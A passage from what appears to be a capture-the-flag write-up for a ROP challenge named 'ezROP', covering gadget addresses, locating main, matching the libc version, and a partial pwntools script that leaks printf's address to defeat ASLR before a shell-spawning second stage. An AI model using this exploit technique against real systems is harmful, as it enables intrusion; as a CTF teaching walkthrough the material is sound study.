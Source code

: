 - **Second gadget** (`0x40101a`): `ret`
  - Provides 16-byte stack alignment required by modern libc functions

### Finding main()

```bash
$ objdump -d ezROP | grep "<main>:"
000000000040150b <main>:
```

The `main()` function at `0x40150b` serves as our return point after Stage 1. This enables the two-stage attack:
1. Program accepts input for Stage 1 (leak libc)
2. After leak, return to main
3. Program prompts for input again
4. Execute Stage 2 (spawn shell)

## Docker Container Setup

We need to obtain the exact libc version used by the target environment. 

Libc function offsets vary between versions - using an incorrect version will result in miscalculated addresses and exploit failures.

**Target libc version**:
- **Base**: glibc 2.31
- **Distro**: Ubuntu 20.04 LTS
- **Package**: libc6_2.31-0ubuntu9.9_amd64.so

## The Exploit Script

Here's the complete Python exploit using pwntools:

```python
# Exploit for the ROP Challenge
from pwn import *

# ld = ELF("./ld-2.27.so")
exe = ELF("ezROP", checksec=False)
exe_rop = ROP(exe)
libc = ELF("libc6_2.31-0ubuntu9.9_amd64.so")
context.binary = exe

# ROP gadgets for chain construction
ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = 0x00000000004015a3

# Connect to target server
io = remote("recruit.osiris.bar", 21002)

# Stage 1: Information Disclosure - Defeat ASLR
io.sendafter(b"name?\n",flat({
    0: b"\n",
    8: b"AAAAAAAA",
    0x70+0x8: [
        ret_addr,
        pop_rdi_ret_addr,
        exe.got["printf"],
        exe.plt["printf"],
        ret_addr,
        exe.sym["main"]
    ]
}))

io.recvuntil(b"??\n")
# Parse leaked printf address and calculate libc base
```